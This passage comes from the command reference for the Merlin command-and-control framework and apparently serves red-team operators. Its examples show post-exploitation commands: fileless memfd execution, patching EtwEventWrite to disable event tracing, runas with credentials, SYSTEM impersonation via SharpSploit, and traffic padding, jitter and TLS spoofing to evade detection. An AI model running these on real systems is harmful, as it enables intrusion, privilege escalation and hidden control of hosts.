    [-]Created job utpISXXXbl for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

memfd
-----

.. note::
    This command is only available to agent running on a ``Linux`` operating system!

.. note::
    USAGE: ``memfd filePath [args]``

The ``memfd`` command loads a Linux executable file into memory (RAM) as an anonymous file using the
`memfd_create <https://man7.org/linux/man-pages/man2/memfd_create.2.html>`__ API call, executes it, and returns the
results.
The file is created with an empty string as its name.
Less the fact that RAM is a file on Linux, the executable is not written to disk.
View the `Detecting Linux memfd_create() Fileless Malware with Command Line Forensics
<https://www.sandflysecurity.com/blog/detecting-linux-memfd_create-fileless-malware-with-command-line-forensics/>`__
for detection guidance.

.. note::
    This command will not run on Windows agents

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» memfd /tmp/hello.py
    [-] Created job ZyeWhgfThk for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [-] Results job ZyeWhgfThk for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] Hello from a Python script

memory
------

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

.. note::
    USAGE: ``memory {read|write|patch} module procedure {readLength | hexData}``

The ``memory`` command is used to interact with the agent's virtual memory through the following methods:

    * patch_
    * read_
    * write_

Uses direct syscalls for ``NtReadVirtualMemory``, ``NtProtectVirtualMemory``, & ``ZwWriteVirtualMemory`` implemented
using `BananaPhone <https://github.com/C-Sto/BananaPhone>`__

.. _patch:

patch
^^^^^

.. note::
    USAGE: ``memory patch module function bytes``

The ``patch`` command locates the address of the provided procedure/function, reads the existing bytes, and the
overwrites them with the provided bytes. A second read is performed to validate the write event. The command would be
the same as calling the ``read`` and ``write`` commands individually.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» memory patch ntdll.dll EtwEventWrite 9090C3
    [-] Created job quRORyMMxS for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [-] Results job quRORyMMxS for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+]
    Read  3 bytes from ntdll.dll!EtwEventWrite: 4C8BDC
    Wrote 3 bytes to   ntdll.dll!EtwEventWrite: 9090C3
    Read  3 bytes from ntdll.dll!EtwEventWrite: 9090C3

.. _read:

read
^^^^

.. note::
    USAGE: ``memory read module function length``

The ``read`` command locates the address of the provided procedure/function and reads the specified number of bytes.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» memory read ntdll.dll EtwEventWrite 3
    [-] Created job YlqClnqRdK for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [-] Results job YlqClnqRdK for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] Read 3 bytes from ntdll.dll!EtwEventWrite: 4C8BDC

.. _write:

write
^^^^^

.. note::
    USAGE: ``memory write module function bytes``

The ``write`` command locates teh address of the provided procedure/function and writes the specified bytes.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» memory write ntdll.dll EtwEventWrite 9090C3
    [-] Created job XTXJBLoZuO for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [-] Results job XTXJBLoZuO for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+]
    Wrote 3 bytes to ntdll.dll!EtwEventWrite: 9090C3

modules
-------

.. note::
    USAGE: ``modules``

The ``modules`` command moves to the Modules menu.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» modules
    Merlin[modules]»

netstat
-------

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

.. note::
    USAGE: ``netstat [-p tcp|udp]``

The ``netstat`` command uses the Windows API to enumerating network connections and listening ports.
Without any arguments, the ``netstat`` command returns all TCP and UDP network connections.

Use ``netstat -p tcp`` to only return TCP connections and ``netstat -p udp`` to only return UDP connections.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» netstat
    [-] Created job JEFMANkdaU for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [-] Results job JEFMANkdaU for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+]
    Proto Local Addr              Foreign Addr            State        PID/Program name
    udp   0.0.0.0:123             0.0.0.0:0                            3272/svchost.exe
    udp   0.0.0.0:500             0.0.0.0:0                            3104/svchost.exe
    udp   0.0.0.0:3389            0.0.0.0:0                            984/svchost.exe
    udp6  :::123                  0.0.0.0:0                            3272/svchost.exe
    udp6  :::500                  0.0.0.0:0                            3104/svchost.exe
    udp6  :::3389                 0.0.0.0:0                            984/svchost.exe
    tcp   0.0.0.0:135             0.0.0.0:0               LISTEN       964/svchost.exe
    tcp   0.0.0.0:445             0.0.0.0:0               LISTEN       4/System
    tcp   0.0.0.0:3389            0.0.0.0:0               LISTEN       984/svchost.exe
    tcp   127.0.0.1:52945         127.0.0.1:5357          TIME_WAIT
    tcp   127.0.0.1:54441         127.0.0.1:5357          TIME_WAIT
    tcp   192.168.1.11:59757      72.21.91.29:80          CLOSE_WAIT   6496/SearchApp.exe
    tcp   192.168.1.11:59763      72.21.91.29:80          CLOSE_WAIT   12076/YourPhone.exe
    tcp6  :::135                  :::0                    LISTEN       964/svchost.exe
    tcp6  :::445                  :::0                    LISTEN       4/System
    tcp6  :::3389                 :::0                    LISTEN       984/svchost.exe

note
----

.. note::
    USAGE: ``note message``

The ``note`` command creates a server-side note that operators can use to record miscellaneous information about an agent.
The note is displayed in a column of the output from the sessions_ command

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» note Demo Agent Here
    [i] Agent c1090dbc-f2f7-4d90-a241-86e0c0217786's note set to: Demo Agent Here
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» sessions

                   AGENT GUID              |    TRANSPORT    |   PLATFORM    |      HOST       |        USER         |                 PROCESS                  | STATUS | LAST CHECKIN |      NOTE
    +--------------------------------------+-----------------+---------------+-----------------+---------------------+------------------------------------------+--------+--------------+-----------------+
      c1090dbc-f2f7-4d90-a241-86e0c0217786 | HTTP/2 over TLS | linux/amd64   | ubuntu          | rastley             | main(200769)                             | Active | 0:00:08 ago  | Demo Agent Here


nslookup
--------

.. note::
    USAGE: ``nslookup {hostname|ip address} {hostname|ip address} ...``

The ``nslookup`` command takes a space separated list of IP addresses or hostnames and performs a DNS query using the
host's resolver and returns the results.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» nslookup 8.8.8.8 9.9.9.9 github.com google.com
    [-] Created job fQilcQFmlk for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [-] Results job fQilcQFmlk for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] Query: 8.8.8.8, Result: dns.google.
    Query: 9.9.9.9, Result: dns9.quad9.net.
    Query: github.com, Result: 192.30.255.113
    Query: google.com, Result: 142.250.73.238 2607:f8b0:4004:82a::200e

.. _padding:

padding
-------

.. note::
    USAGE: ``padding size``

The ``padding`` control type is used to change the _maximum_ size of a message's padding.
A random value between 0 and the maximum padding value is selected on a per message basis and added to the end of each message.
This is used in an attempt to evade detection when a program looks for messages with same size beaconing out.
The default is 4096. There is no response on the CLI after the instruction has been provided to the agent.
You can verify the setting was changed using the ``agent info`` command.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» set padding 8192
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]»
    [-]Created job wlGTwgtqNx for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

parrot
------

.. note::
    USAGE: ``parrot browserString``

The ``parrot`` command changes the HTTP client's TLS configuration to match the provided browser string.
Tab completion contains **some** of, but not all, the supported browser strings.
This setting will override the ``ja3`` setting.
Examples of some supported values are:

* ``HelloChrome_Auto``
* ``HelloChrome_102``
* ``HelloGolang``
* ``HelloFirefox_Auto``
* ``HelloIOS_Auto``
* ``HelloEdge_Auto``
* ``HelloSafari_Auto``
* ``Hello360_Auto``
* ``HelloQQ_Auto``

A full list of options can be found in the ``u_common.go`` file in the `utls library <https://github.com/refraction-networking/utls/tree/master>`_.


pipes
-----

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

.. note::
    USAGE: ``pipes``

The ``pipes`` command lists all of the named pipes on the Windows host where the agent is currently running:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» pipes
    [-] Created job XYXXiZaGev for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job XYXXiZaGev for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+]
    Named pipes:
    \\.\pipe\InitShutdown
    \\.\pipe\lsass
    \\.\pipe\ntsvcs
    \\.\pipe\scerpc
    \\.\pipe\Winsock2\CatalogChangeListener-2f4-0
    \\.\pipe\Winsock2\CatalogChangeListener-3c4-0
    \\.\pipe\epmapper
    \\.\pipe\Winsock2\CatalogChangeListener-254-0
    \\.\pipe\LSM_API_service
    \\.\pipe\Winsock2\CatalogChangeListener-3f8-0
    \\.\pipe\eventlog
    \\.\pipe\Winsock2\CatalogChangeListener-558-0
    \\.\pipe\TermSrv_API_service
    \\.\pipe\Ctx_WinStation_API_service
    \\.\pipe\atsvc
    \\.\pipe\Winsock2\CatalogChangeListener-734-0
    \\.\pipe\wkssvc
    \\.\pipe\SessEnvPublicRpc
    \\.\pipe\Winsock2\CatalogChangeListener-a1c-0
    \\.\pipe\spoolss
    \\.\pipe\Winsock2\CatalogChangeListener-adc-0
    \\.\pipe\trkwks

printenv
--------

.. note::
    USAGE: ``printenv``

The ``printenv`` command is an alias for the ``env`` showall_ command that enumerates and return all environment variables:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» printenv
    [-] Created job NzbQEytJpY for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job NzbQEytJpY for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+]
    Environment variables:
    SHELL=/bin/bash
    SESSION_MANAGER=local/ubuntu:@/tmp/.ICE-unix/3195,unix/ubuntu:/tmp/.ICE-unix/3195
    QT_ACCESSIBILITY=1
    SNAP_REVISION=148
    XDG_CONFIG_DIRS=/etc/xdg/xdg-ubuntu:/etc/xdg
    XDG_MENU_PREFIX=gnome-
    GNOME_DESKTOP_SESSION_ID=this-is-deprecated
    SNAP_REAL_HOME=/home/rastley
    GNOME_SHELL_SESSION_MODE=ubuntu
    SSH_AUTH_SOCK=/run/user/1000/keyring/ssh

.. _ps:

ps
--

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

.. note::
    USAGE: ``ps``

The ``ps`` command uses the Windows API to gather available information about running processes.
The agent is not running in a high-integrity process then some of the information will be missing.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]]» ps
    [-] Created job afYByFZoXV for agent c1090dbc-f2f7-4d90-a241-86e0c0217786]

    [-] Results job afYByFZoXV for agent c1090dbc-f2f7-4d90-a241-86e0c0217786]

    [+]
    PID     PPID    ARCH    OWNER   EXE
    0       0       x64             [System Process]
    4       0       x64             System
    124     4       x64             Registry
    412     4       x64             smss.exe
    508     496     x64             csrss.exe
    596     496     x64             wininit.exe
    604     588     x64             csrss.exe
    668     588     x64     BUILTIN\Administrators  winlogon.exe
    736     596     x64             services.exe
    <SNIP>
    4648    2504    x64     DESKTOP-H39FR21\bob     sihost.exe
    5732    736     x64     DESKTOP-H39FR21\bob     svchost.exe
    5684    736     x64     DESKTOP-H39FR21\bob     svchost.exe
    5768    1844    x64     DESKTOP-H39FR21\bob     taskhostw.exe
    5716    736     x64     BUILTIN\Administrators  svchost.exe
    2396    736     x64     NT AUTHORITY\SYSTEM     svchost.exe
    6220    2396    x64     DESKTOP-H39FR21\bob     ctfmon.exe
    6464    736     x64     NT AUTHORITY\LOCAL SERVICE      svchost.exe
    6504    6376    x64     DESKTOP-H39FR21\bob     explorer.exe

pwd
---

.. note::
    USAGE: ``pwd``

The ``pwd`` command uses native Go to get and return the current working directory.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» pwd
    [-]Created job JweUayTyTv for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [-] Results job JweUayTyTv for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] Current working directory: C:\Users\Joe

quit
----

.. note::
    USAGE: ``quit [-y]``

The ``quit`` command is used to exit out of the Merlin Server application. This is also an alias for the ``exit`` command.

.. rev2self:

rev2self
--------

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

.. note::
    USAGE: ``rev2self``

The ``rev2self`` command reverts the thread impersonation token to the process token.
This command is an alias for the :ref:`token rev2self` command.
Leverages the RevertToSelf Windows API function.

References:

    * https://docs.microsoft.com/en-us/windows/win32/api/securitybaseapi/nf-securitybaseapi-reverttoself

.. code-block::

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» rev2self
    [-] Created job ZXKyKuIZru for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [-] Results job ZXKyKuIZru for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [+] Successfully reverted to self and dropped the impersonation token

.. _rm:

rm
--

.. note::
    USAGE: ``rm filePath``

The ``rm`` command will remove or delete a file using native Go functions.

`` rm <file path>``

.. code-block:: text

    Merlin[agent][336154be-9ab9-4add-96e6-69c79f1ce77d]» rm C:\\Users\\rastley\\Downloads\\lyrics.txt
    [-] Created job jwGxSVYMDY for agent 336154be-9ab9-4add-96e6-69c79f1ce77d

    [-] Results job jwGxSVYMDY for agent 336154be-9ab9-4add-96e6-69c79f1ce77d

    [+] successfully removed file C:\Users\rastley\Downloads\lyrics.txt

runas
-----

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

.. note::
    USAGE: ``runas DOMAIN\USER password program [arguments]``

The ``runas`` command will run a program as another user. This is done using the `CreateProcessWithLogonW <https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithlogonw>`__ Windows API call.

``runas <Domain\\User> <Password> <program> [<program args>]``

.. code-block:: text

    Merlin[agent][336154be-9ab9-4add-96e6-69c79f1ce77d]» runas ACME\\Administrator S3cretPassw0rd cmd.exe /c dir \\\\DC01.ACME.COM\\C$
    [-] Created job PABQYrMLYO for agent 336154be-9ab9-4add-96e6-69c79f1ce77d

    [-] Results job PABQYrMLYO for agent 336154be-9ab9-4add-96e6-69c79f1ce77d

    [+] Created cmd.exe process with PID 2120

.. _run:

run
---

.. note::
    USAGE: ``run program [arguments]``

The ``run`` command is used to task the agent to run a program on the host and return STDOUT/STDERR. When issuing a command to an agent from
the server, the agent will execute the provided binary file for the program you specified and also pass along any
arguments you provide. It is important to note that program must be in the path. This allows an operator to specify and
use a shell (e.g.,. cmd.exe, powershell.exe, or /bin/bash) or to execute the program directly *WITHOUT* a shell.
For instance, ``ping.exe`` is typically in the host's %PATH% variable on Windows and works *without* specifying ``cmd.exe``.
However, the ``ver`` command is not an executable in the %PATH% and therefore *must* be run from ``cmd.exe``.
Use the shell_ command if you want to use the operating system's default shell directly.

Example using ping:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» run ping 8.8.8.8
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [-]Created job DTBnkIfnus for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [+]Results for job DTBnkIfnus

    Pinging 8.8.8.8 with 32 bytes of data:
    Reply from 8.8.8.8: bytes=32 time=23ms TTL=54
    Reply from 8.8.8.8: bytes=32 time=368ms TTL=54
    Reply from 8.8.8.8: bytes=32 time=26ms TTL=54
    Reply from 8.8.8.8: bytes=32 time=171ms TTL=54

    Ping statistics for 8.8.8.8:
        Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
    Approximate round trip times in milli-seconds:
        Minimum = 23ms, Maximum = 368ms, Average = 147ms

Example running ``ver`` *without* ``cmd.exe``:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» run ver
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [-]Created job iOMPERNYGT for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [+]Results for job iOMPERNYGT
    exec: "ver": executable file not found in %PATH%

Example running ``ver`` *with* ``cmd.exe``:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» run cmd.exe /c ver
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [-]Created job IxVXgyIkhS for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [+]Results for job IxVXgyIkhS

    Microsoft Windows [Version 10.0.16299.64]

Shell Functions
^^^^^^^^^^^^^^^

Some commands and capabilities are components of a shell and can *ONLY* be used with a shell.
For example, the ``dir`` command is a component of ``cmd.exe`` and is not its own program executable.
Therefore, ``dir`` can only be used within the ``cmd.exe`` shell.
In order to use the `dir`, you must provide executable of the shell environment where that command resides.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» run cmd.exe /c dir

The pipe and redirection characters ``|`` , ``>`` , and ``<`` , are also functions of a shell environment.
If you want to use them, you must do so *WITH* a shell.
For Linux, an example would be:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]»run bash -c "cat /etc/passwd | grep root"

Quoted Arguments
^^^^^^^^^^^^^^^^

When running a command on an agent from the server, the provided arguments are passed to executable that was called.
As long as there are no special characters (e.g., ``\`` , ``&`` , ``;`` , ``|`` , ``>`` , ``<`` etc.) the command will be processed fine.

For example, this command will work fine because it does not have any special characters:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» run powershell.exe Get-Service -Name win* -Exclude WinRM

However, this command **WILL** fail because of the ``|`` symbol. The command will still execute, but will stop processing everything after the ``|`` symbol.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» run powershell.exe Get-Service -Name win* -Exclude WinRM | fl

To circumvent this, enclose the entire argument in quotes. The outer most quotes will be removed when the arguments are
passed. Any inner quotes need to be escaped. The argument can be enclosed in double quotes or single quotes.
The command be executed in both of these ways:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» run powershell.exe "Get-Service -Name win* -Exclude WinRM | fl"

**OR**

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» run powershell.exe "Get-Service -Name \"win*\" -Exclude "WinRM" | fl"

**OR**

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» run powershell.exe 'Get-Service -Name \'win*\' -Exclude 'WinRM' | fl'

Escape Sequence
^^^^^^^^^^^^^^^

Following along with the Quoted Arguments section above, the ``\`` symbol will be interpreted as an escape sequence.
This is beneficial because it can be used to escape other characters like the pipe symbol, ``|`` .
However, it can work against you when working with Windows file paths and the arguments are not enclosed in quotes.

This command will fail because the ``\`` itself needs to escaped. Notice the error message shows ``C:WindowsSystem32``:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» run cmd.exe /c C:\Windows\System32
    [-]Created job hBYxRfaRBG for agent 21a0fc5f-14ad-4c43-b41e-57eab1feb0e1
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [+]Results for job hBYxRfaRBG
    [+]'C:WindowsSystem32' is not recognized as an internal or external command,
    operable program or batch file.
    [!]exit status 1

To correctly issue the command either escape the ``\`` or enclose the commands in quotes:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» run cmd.exe /c dir C:\\Windows\\System32

sdelete
-------

.. note::
    USAGE: ``sdelete filePath``

The ``sdelete`` command securely deletes a file.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» sdelete /tmp/deleteMe.txt
    [-] Created job ZfLruZBwbR for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [-] Results job ZfLruZBwbR for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] Securely deleted file: /tmp/deleteMe.txt

sessions
--------

.. note::
    USAGE: ``sessions``

The ``sessions`` command is used to quickly list information about established agents from the main menu to include their status.
The sessions command is available from any menu in the CLI.

* **AGENT GUID** - A unique identifier for every running instance
* **TRANSPORT** - The protocol the agent is communicating over
* **PLATFORM** - The operating system and architecture the agent is running on
* **HOST** - The hostname where the agent is running
* **USER** - The username that hte agent is running as
* **PROCESS** - The Agent's process name followed by its Process ID (PID) in parenthesis
* **STATUS** - The Agent's communiction status of either active, delayed, or dead
* **LAST CHECKIN** - The amount of time that has passed since the agent last checked in
* **NOTE** - A free-form text area for operators to record notes about a specific agent; tracked server-side only

.. code-block:: text

    Merlin» sessions

                   AGENT GUID              |    TRANSPORT    |   PLATFORM    |      HOST       |        USER         |                 PROCESS                  | STATUS | LAST CHECKIN |      NOTE
    +--------------------------------------+-----------------+---------------+-----------------+---------------------+------------------------------------------+--------+--------------+-----------------+
      d07edfda-e119-4be2-a20f-918ab701fa3c | HTTP/2 over TLS | linux/amd64   | ubuntu          | rastley             | main(200769)                             | Active | 0:00:08 ago  | Demo Agent Here

sharpgen
--------

.. note::
    This command is only available to agent running on a ``Windows`` operating system!

.. note::
    USAGE: ``sharpgen <C# code> [spawnto] [spawnto_args]``

.. warning::
    The .NET Core 2.1 SDK must be manually installed by the operator and the SharpGen executable must be built before the ``sharpgen`` command can be used

The ``sharpgen`` command leverages Ryan Cobb's `SharpGen <https://github.com/cobbr/SharpGen>`_ project and the `.NET Core 2.1 SDK <https://dotnet.microsoft.com/download/dotnet-core/2.1>`_ to dynamically compile and execute .NET assemblies. After assembly is compiled, the same steps documented in `execute-assembly`_ are followed. SharpGen also leverages functionality from the `SharpSploit <https://github.com/cobbr/SharpSploit>`_ project that can be called directly from this ``shargen`` command. This command uses a hardcoded output that places compiled executables to the Merlin root directory as ``sharpgen.exe``.

For more granular control and additional configuration options, use the ``windows/x64/csharp/misc/SharpGen`` module.

SharpGen is git a submodule in the ``data/src/cobbr/SharpGen`` directory. From this directory, run the ``dotnet build -c release`` command to build the ``SharpGen.dll`` executable.

The ``sharpgen`` command is executed as: ``shaprgen <code> [<spawnto path> <spawnto args>]``

The ``code`` positional argument is the .NET code you want to compile and execute. All code is automatically wraped in ``Console.WriteLine();`` and it does not need to be included again. All other arguments are optional. The ``<spawnto path>`` argument is the process that will be started on the target and where the shellcode will be injected and executed. If a ``<spawnto path>`` is not provided, ``C:\WIndows\System32\dllhost.exe`` will be used. The ``<spawnto args>`` value is used as an argument when starting the spawnto process.

.. note::
    Use ``\`` to escape any characters inside of the code argument and use quotes to enclose the entire code argument (e.g., ``"new Tokens().MakeToken(\"RAstley\", \"\", \"P@ssword\")"``)

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» sharpgen "new SharpSploit.Credentials.Tokens().GetSystem()"
    [-] Created job oeOBXfBuPS for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

    [+] Results for c1090dbc-f2f7-4d90-a241-86e0c0217786 job oeOBXfBuPS

    Getting system...
    Impersonate NT AUTHORITY\SYSTEM...
    Processes for NT AUTHORITY\SYSTEM: 25
    Attempting to impersonate: NT AUTHORITY\SYSTEM
    Attempting to impersonate: NT AUTHORITY\SYSTEM
    Impersonated: NT AUTHORITY\SYSTEM
    True

.. _shell:

shell
-----

.. note::
    USAGE: ``shell command [arguments]``

The ``shell`` command is used to task the agent to execute the provided arguments using the operating system's default
shell and return STDOUT/STDERR. On Windows the ``%COMSPEC%`` shell is used and if it is ``cmd.exe`` then the ``/c``
argument is used. For macOS and Linux, the ``/bin/sh`` shell is used with the ``-c`` argument.
Use the run_ command to execute a program directly without invoking the shell.

Example using ``ver``:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell ver
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [-]Created job IxVXgyIkhS for agent c1090dbc-f2f7-4d90-a241-86e0c0217786
    [+]Results for job IxVXgyIkhS

    Microsoft Windows [Version 10.0.16299.64]

Shell Functions
^^^^^^^^^^^^^^^

Some commands and capabilities are components of a shell and can *ONLY* be used with a shell.
For example, the ``dir`` command is a component of ``cmd.exe`` and is not its own program executable.
Therefore, ``dir`` can only be used within the ``cmd.exe`` shell.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell dir

The pipe and redirection characters ``|`` , ``>`` , and ``<`` , are also functions of a shell environment.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell "cat /etc/passwd | grep root"

Quoted Arguments
^^^^^^^^^^^^^^^^

When running a command on an agent from the server, the provided arguments are passed to executable that was called.
As long as there are no special characters (e.g., ``\`` , ``&`` , ``;`` , ``|`` , ``>`` , ``<`` etc.) the command will be processed fine.

For example, this command will work fine because it does not have any special characters:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell powershell.exe Get-Service -Name win* -Exclude WinRM

However, this command **WILL** fail because of the ``|`` symbol. The command will still execute, but will stop processing everything after the ``|`` symbol.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell powershell.exe Get-Service -Name win* -Exclude WinRM | fl

To circumvent this, enclose the entire argument in quotes. The outer most quotes will be removed when the arguments are
passed. The argument can be enclosed in double quotes or single quotes. All other quotes need to be escaped
The command be executed in both of these ways:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell powershell.exe "Get-Service -Name win* -Exclude WinRM | fl"

**OR**

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell powershell.exe "Get-Service -Name \"win*\" -Exclude "WinRM" | fl"

**OR**

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell powershell.exe 'Get-Service -Name \'win*\' -Exclude 'WinRM' | fl'

Escape Sequence
^^^^^^^^^^^^^^^

Following along with the Quoted Arguments section above, the ``\`` symbol will be interpreted as an escape sequence.
This is beneficial because it can be used to escape other characters like the pipe symbol, ``|`` .
However, it can work against you when working with Windows file paths and the arguments are not enclosed in quotes.

This command will fail because the ``\`` itself needs to escaped. Notice the error message shows File Not Found:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell dir C:\Windows\System32
    [-]Created job hBYxRfaRBG for agent 21a0fc5f-14ad-4c43-b41e-57eab1feb0e1
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» [+]Results for job hBYxRfaRBG
    [+]  Volume in drive C has no label.
     Volume Serial Number is AC57-CFB9

     Directory of C:\

    File Not Found

To correctly issue the command either escape the ``\`` or enclose the commands in quotes:

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» shell dir C:\\Windows\\System32

.. _skew:

skew
----

.. note::
    USAGE: ``skew amount``

The ``skew`` command is used to introduce a jitter or skew to the agent sleep time to keep traffic from occurring at exact time intervals.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» skew 5
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]»
    [-]Created job lyYQdxckTY for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

.. _sleep:

sleep
-----

.. note::
    USAGE: ``sleep duration``

The ``sleep`` control type is used to change the amount of time that an agent will sleep before checking in again.
The default is 30 seconds. The values provided to this command are written in a time format.
For example, ``30s`` is 30 seconds and ``60m`` is 60 minutes.
There is no response on the CLI after the instruction has been provided to the agent.
You can verify the setting was changed using the ``agent info`` command.

Peer-to-peer bind and reverse Agents can be configured with a negative sleep value (e.g., -10s).
The actual amount doesn't matter, just that it is negative.
A negative sleep value prevents the peer-to-peer Agent from communicating on the network UNLESS it has a job.
This means there are no status checkin messages back to the Server at a fixed interval.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» sleep 15s
    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]»
    [-]Created job npMYqwASOD for agent c1090dbc-f2f7-4d90-a241-86e0c0217786

socks
-----

.. note::
    USAGE: ``socks {list | start [interface:]port agentID | stop [interface:]port agentID}``

The ``socks`` command is used to start, stop, or list SOCKS5 listeners. There can only be one SOCKS5 listener per agent.

* :ref:`socks list`
* :ref:`socks start`
* :ref:`socks stop`

.. _socks list:

list
^^^^

.. note::
    USAGE: ``socks list``

The ``list`` command will list active SOCKS5 listeners per agent. If the SOCKS5 listener was configured to listen on
all interfaces (e.g., 0.0.0.0), then the interface will be listed as ``[::]:``.

.. code-block:: text

    Merlin[agent][c1090dbc-f2f7-4d90-a241-86e0c0217786]» socks list
    [i]
            Agent                           Interface:Port
    ==========================================================
    c1090dbc-f2f7-4d90-a241-86e0c0217786    127.0.0.1:9050
    7be9defd-29b8-46ee-8d38-0f3805e9233f    [::]:9051
    6d8a3a59-e484-40b3-977b-530b351106a6    192.168.1.100:9053

.. _socks start:

start
^^^^^

.. note::
    USAGE: ``socks start [interface:]port agentID``

.. warning::
    SOCKS5 listeners do not require authentication. Control access accordingly using firewall rules or SSH tunnels.

.. note::
    In most cases you should only bind to the loopback adapter, 127.0.0.1, to prevent unintentionally exposing the port.

The ``start`` command will start a SOCKS5 listener for the current agent. This command takes an optional third argument
of the interface and port, or just the port, that you want to bind the listener to. If a third argument is not provided
the listener will default to listen on ``127.0.0.1:9050``.



.. code-block:: text

